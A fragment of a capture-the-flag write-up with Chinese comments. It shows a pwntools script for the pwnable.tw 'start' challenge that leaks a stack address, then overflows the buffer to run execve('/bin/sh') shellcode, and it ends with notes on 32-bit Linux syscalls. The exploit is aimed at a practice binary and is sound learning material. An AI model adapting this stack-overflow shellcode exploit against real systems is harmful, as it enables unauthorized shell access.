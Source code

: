 ```py
if debug:
    p=process('./start')
    # p=process('',env={'LD_PRELOAD':'./libc.so'}) # 绑定libc
    context.log_level='debug'
    gdb.attach(p)
else:
    p=remote('chall.pwnable.tw', 10000)

# generate shellcode
shell_code = asm('\n'.join([
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80',
]))

# stage 1 : leak stack address
log.info('Pwning start:')
p.recvuntil(':')
payload_1 = b'A' * 0x14 + p32(0x08048087)
p.send(payload_1)

# save addr
esp_addr = u32(p.recv(4))

# stage 2
payload_2 = b'a' * 0x14   # write函数的参数
payload_2 += p32(esp_addr +0x14)  # esp+0x14 是ret_addr的位置
payload_2 += shell_code    # 

p.send(payload_2)

p.interactive()

```

### tips

系统调用的过程可以总结如下：
1． 执行用户程序(如:fork)
2． 根据glibc中的函数实现，取得系统调用号并执行int $0x80产生中断。
3． 进行地址空间的转换和堆栈的切换，执行SAVE_ALL。（进行内核模式）
4． 进行中断处理，根据系统调用表调用内核函数。
5． 执行内核函数。
6． 执行RESTORE_ALL并返回用户模式
Linux 32位的系统调用时通过int 80h来实现的，eax寄存器中为调用的功能号，ebx、ecx、edx、esi等等寄存器则依次为参数。

系统调用号
